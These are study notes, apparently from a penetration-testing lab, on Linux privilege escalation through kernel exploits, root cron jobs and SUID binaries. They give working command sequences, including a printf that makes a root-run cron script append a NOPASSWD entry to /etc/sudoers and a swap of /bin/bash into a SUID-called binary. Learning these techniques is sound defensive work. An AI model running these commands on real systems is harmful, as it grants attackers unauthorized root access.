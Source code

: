 # Linux Kernel Exploits
- to execute arbitrary coe in order to run privileged system commands or to obtain a system shell
- differ based ont the kernel version and distribution
- methodology
	- identifying kernel vulns - tool linux-exploit-suggester
	- download, compile, and transfer kernel exploit on the target sys
- tools
	- Linux-Exploit-Suggester
	- GitHub
- **Process**
	- obtain a meterpreter session on the target
	- after that collect data- `sysinfo`, `getuid`, 
	- download and transfer the tool to the target system
		- `cd /tmp`
		- upload <path to file>
	- shell
	- `/bin/bash -i`
	- `chmod +x les.sh`
	- `./les.sh`
	- will provide us with the vulns 
	- download the exploit and compile it on your machine
	- transfer it to the target system
	- run it
	- If it does not work, upload the file before compilation
	- compile it on the target system
	- you have a new user with root privileges

### Misconfigured Cron Jobs
- Cron is a time-based service that runs applications, scripts and other commands repeatedly on a specified schedule
- crontab file
- Cron jobs can be run as any user on the system
- find and identify cron jobs scheduled by the root user
- **Exploitation Process**
	- `crontab -l`
	- `ls -al`
	- `cd /`
	- `grep -rnw /usr -e "home/student/message"`
	- once find the script, edit it 
	- `printf '#!/bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/copy.sh`
	- `sudo -l`
	- `sudo su`

### Exploiting SUID Binaries
- Set Owner User ID
- a permission like read, wirte, and execute
- provides users with the ability to execute a script or binary with permissions of the file owner
- factors important
- owner of SUID binary
- Access permissions
-**Exploitation Process**
	- `ls -la`
	- find the file which has the SUID permission enabled s
	- `file welcom` --> welcome is the name of file
	- `strings welcom`
	- `rm greetings`
	- `cp /bin/bash greetings`
	- ` ./welcom`
